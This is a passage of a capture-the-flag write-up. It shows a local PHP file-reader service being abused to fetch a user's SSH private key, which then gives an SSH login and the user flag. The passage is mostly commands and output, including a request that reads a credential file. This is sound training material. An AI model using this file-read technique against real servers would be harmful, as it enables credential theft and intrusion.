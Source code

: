 ```bash
[intern@SESH-PI ~]$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           8  0.0  0.1  14776  4792 ?        S    May17   0:00 su master-baker -c cd ~/ && php -S localhost:9999
root           9  0.0  0.1  14776  4540 ?        S    May17   0:00 su flask -c /home/flask/ctf-management/run.sh
master-+      10  0.0  0.5  74428 19704 ?        Ss   May17   0:01 php -S localhost:9999
```

Let's give it a `curl` to see what it does:

```bash
[intern@SESH-PI ~]$ curl http://localhost:9999
<h1>My File Reader</h1>

<a href="/get-file.php">Read My Files!</a>
```

So it looks like it can read a file - as it's owned by `master-baker`, we can likely use it to read their files. But what to read? We can try something that would allow us to escalate privileges... like an `id_rsa` file:

```bash
[intern@SESH-PI ~]$ curl http://localhost:9999/get-file.php?file=.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...[snip]...
tE0bB89AtxC3m1AAAACnRsbEBCSVRCT1g=
-----END OPENSSH PRIVATE KEY-----
```

We got lucky! The webserver was running out of `master-baker`'s home directory, so we could go straight to `.ssh` - if it wasn't, we would have to do some extra enumeration to try and figure out where we were, or just request the file with a full path (`/home/master-baker/.ssh/id_rsa`)

This SSH private key will let us SSH as `master-baker`. Let's copy the key to our local system, then SSH with the following command:

```bash
$ echo [KEY] > master_baker
$ chmod 600 master_baker
$ ssh -p 2222 -i master_baker master-baker@139.162.206.87
[master-baker@SESH-PI ~]$
```

## Shell as Root

Now we're `master-baker` we can have a poke around the file system and grab the user flag:

```bash
[master-baker@SESH-PI ~]$ ls -la
total 56
drwx------ 1 master-baker master-baker 4096 May 15 11:53 .
drwxr-xr-x 1 root         root         4096 May 15 11:53 ..
lrwxrwxrwx 1 master-baker master-baker    9 May 15 11:08 .bash_history -> /dev/null
-rw-r--r-- 1 master-baker master-baker   21 May 12 23:41 .bash_logout
-rw-r--r-- 1 master-baker master-baker   57 May 12 23:41 .bash_profile
-rw-r--r-- 1 master-baker master-baker  141 May 12 23:41 .bashrc
---------- 1 root         root          176 May 15 09:15 .egg
-rwsr-xr-x 1 root         root         9584 May 15 09:18 .egg-cracker
-rw-r--r-- 1 master-baker master-baker  141 May 15 11:53 get-file.php
-rw-r--r-- 1 master-baker master-baker   69 May 15 11:53 index.php
-rw-r--r-- 1 root         root           32 May 15 11:53 master.txt
drwxr-xr-x 1 master-baker master-baker 4096 May 15 11:08 .ssh
[master-baker@SESH-PI ~]$ cat master.txt
sesh{y0u_are_Th3_M45t£r_B4ker}
```
